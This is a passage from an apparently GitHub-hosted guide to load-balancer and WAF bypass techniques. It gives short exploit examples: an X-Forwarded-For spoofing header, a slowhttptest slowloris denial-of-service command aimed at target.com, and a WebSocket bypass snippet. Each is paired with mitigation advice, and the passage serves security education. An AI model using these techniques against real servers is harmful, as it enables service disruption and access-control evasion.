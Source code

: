 ```http
X-Forwarded-For: 127.0.0.1
```

### **🔒 Mitigation**

✅ Use **rate limiting based on session tokens** instead of IP  
✅ Configure WAF to verify **only trusted proxies**

---

## **4. Slow HTTP Attacks (Slowloris Bypass)**

### 🔥 **Attack Method**

- **Slowloris Attack** keeps connections open without completing requests, **exhausting server resources**.
- Some **Layer 7 Load Balancers** fail to detect this if request timeouts aren’t enforced.

### **🛠 Exploit Example**

```bash
slowhttptest -c 1000 -H -g -o output -u http://target.com -r 200 -l 300
```

### **🔒 Mitigation**

✅ Set **aggressive timeout policies** on incomplete HTTP headers  
✅ Block clients with **high connection persistence**

---

## **5. WebSocket Load Balancer Bypass**

### 🔥 **Attack Method**

- Many load balancers don’t inspect **WebSocket traffic (`ws://`)**, allowing attackers to tunnel **malicious payloads**.

### **🛠 Exploit Example**

```javascript
var ws = new WebSocket("ws://target.com/admin");
ws.send("GET /bypass-admin HTTP/1.1");
```

### **🔒 Mitigation**

✅ Use **Layer 7 WAF with WebSocket inspection**  
✅ Restrict **unauthenticated WebSocket connections**

---

## **6. API Rate Limiting Bypass**
